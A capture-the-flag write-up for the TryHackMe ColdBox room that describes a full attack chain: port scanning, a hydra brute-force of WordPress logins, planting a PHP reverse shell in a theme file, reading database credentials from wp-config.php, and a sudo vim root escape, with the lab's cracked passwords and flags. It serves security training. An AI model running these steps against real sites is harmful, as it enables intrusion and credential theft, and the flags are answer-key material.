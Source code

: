 # ColdBox

<div align="left">

<figure><img src="../.gitbook/assets/image (94).png" alt="" width="168"><figcaption><p><a href="https://tryhackme.com/room/colddboxeasy">https://tryhackme.com/room/colddboxeasy</a></p></figcaption></figure>

</div>

🔗 [ColdBox](https://tryhackme.com/room/colddboxeasy)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.100.105`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.100.105 coldbox.thm" >> /etc/hosts

mkdir thm/coldbox.thm
cd thm/coldbox.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 coldbox.thm
PING coldbox.thm (10.10.100.105) 56(84) bytes of data.
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=1 ttl=63 time=65.4 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=2 ttl=63 time=61.1 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=3 ttl=63 time=60.5 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 coldbox.thm -oG nmap/port_scan
```

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
4512/tcp open  unknown syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 80, 4512

Now, we need to search which services are running on open ports:

```bash
nmap -p80,4512 -n -Pn -vvv -sCV --min-rate 5000 coldbox.thm -oN nmap/open_port
```

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 3 - User flag?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

we can see that's a wordpress web site, then we can try to see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

but we don't find precious info.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u coldbox.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Very good, we can start to check these web dir:

/hidden/

<figure><img src="../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

Very good, there're precious info about usernames: C0ldd, Hugo and Philip.

We can confirm it watching error message at login in a default login path for wordpress: /wp-admin/

<figure><img src="../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src="../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
C0ldd:9876543210
{% endhint %}

Now we can use this credentials to log in wordpress and ssh.

<figure><img src="../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Check user list, to see them and theirs role/permissions:

<figure><img src="../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

Very good, C0ldd is administrator.

Now, we need to access at machine using web shell, find it on our kali web-shells folder or use pentester monkey website:

<figure><img src="../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

We need to edit it using our credentials (LHOST and LPORT):

<div align="left">

<figure><img src="../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

</div>

and upload it on media library page:

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

But, trying to change extension, upload doesn't work.

<figure><img src="../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

Then, we can try to use wordpress themes or plugins how vector to inject our web-shell.

Starting with themes, we edit header.php page in the twentyfifteen theme using the same php web-shell:

<figure><img src="../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

Update file, run netcat listener on the same port '1234':

<div align="left">

<figure><img src="../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

</div>

Go to: [http://coldbox.thm/wp-content/themes/twentyfifteen/header.php](http://coldbox.thm/wp-content/themes/twentyfifteen/header.php)

<figure><img src="../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

We can upgrade this to a fully interactive shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

and retrieve credentials inside wp-config.php file.

```bash
cat /var/www/html/wp-config.php | grep "DB_USER"
#define('DB_USER', 'c0ldd');
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
#define('DB_PASSWORD', 'cybersecurity');
su c0ldd #inser psw and read flag.
```

we know credential for access how c0ldd user and read user.txt flag

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

</details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

We see that c0ldd user has root permissions for these commands, we can use gtfobins to find them.

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) using vim sudo command below, we obtain a root permission:

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

spawn /bin/sh to use shell:

<div align="left">

<figure><img src="../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

</details>
